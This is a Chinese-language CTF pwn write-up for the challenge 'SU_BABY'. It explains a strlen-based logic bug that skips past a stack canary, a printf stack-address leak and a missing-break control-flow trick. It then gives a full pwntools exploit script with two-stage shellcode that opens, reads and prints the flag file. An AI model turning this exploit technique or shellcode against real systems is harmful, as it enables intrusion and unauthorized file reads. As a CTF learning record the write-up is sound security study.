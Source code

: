 # SU_BABY 

该题的主要漏洞是在`add_file`中存在的逻辑漏洞，而且是无法直接看出来的需要在`gdb`中调试中得到， 填满第一个栈后与后一个栈里面的内容连接在一起经过`strlen`长度判断为14，那么下次就是x+14的位置 读入（x为当前读入位置），合理的控制的话可以直接绕过`canary`保护 

![image-20250115191048112](README/image-20250115191048112.png)

![image-20250115191101653](README/image-20250115191101653.png)

![image-20250115191114962](README/image-20250115191114962.png)

泄露栈地址，利用`printf`不输入回车会导致后面的内容一起被打印出来，然后将栈地址 利用`add_sigID`读入，找到栈地址并读入，然后利用`display_sigdb`打印出来，这里`display_sigdb`不能直 接调用，但因为`query_infiles`没有`break`，可通过执行`query_infiles`进行调用 

![image-20250115191234869](README/image-20250115191234869.png)

然后就是进入`attack`进行构造`read`和`orw`即可 

![image-20250115191249705](README/image-20250115191249705.png)

```python
from tools import *

p = process("./ASU1")
# p = remote("1.95.76.73", 10001)
context(log_level='debug', os='linux', arch='amd64')

def add_id(id, name, ct):
    p.sendlineafter("操作:", str(1))
    p.sendlineafter("ID:", id)
    p.sendlineafter("名称:", name)
    p.sendafter("征码值:", ct)

def add_file(ct):
    p.sendlineafter("文件名称", b'a')
    p.sendlineafter("请输入文件内容", ct)

debug(p, 0x4014FB)
attack = 0x000400F56

add_id(b'22', b'xx', b'aa' + b'a'*0x26 + b'cc')
p.sendlineafter("操作:", str(5))
p.sendlineafter("感染文件:", b'a')

stack = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
log_addr("stack")
stack_addr = stack - 0x1ed50

p.sendlineafter("操作:", str(8))
p.sendlineafter("文件数据:", str(14))

# debug(p, 0x4026ff)
add_file(b'a'*4 + b'\x00')
add_file(b'a'*6 + b'\x00')
add_file(b'a'*6 + b'\x00')
add_file(b'a'*7)
add_file(b'b')
add_file(b'c'*6 + b'\x00')
add_file(p64(attack))

log_addr("stack")
log_addr("stack_addr")

target1 = 0x14068 + stack_addr - 0x590
shellcode = asm(f'''
    xor edi, edi
    xchg rsi, rdx
    add rsi, 0xb
    syscall
''')
payload = shellcode

p.sendafter("nity", payload)
log_addr('target1')

# debug(p, 0x400f3d)
p.sendafter("do?", p64(target1))
sleep(0.1)

shellcode = asm("""
    xor rsi, rsi
    push 0x67616c66
    mov rdi, rsp
    push 2
    pop rax
    syscall
    mov rsi, rdi
    mov edi, 3
    mov edx, 0x50
    xor eax, eax
    syscall
    push 1
    pop rdi
    push rsp
    pop rsi
    push 0x50
    pop rdx
    push 1
    pop rax
    syscall
""")
payload = shellcode

p.sendline(payload)
p.interactive()
```

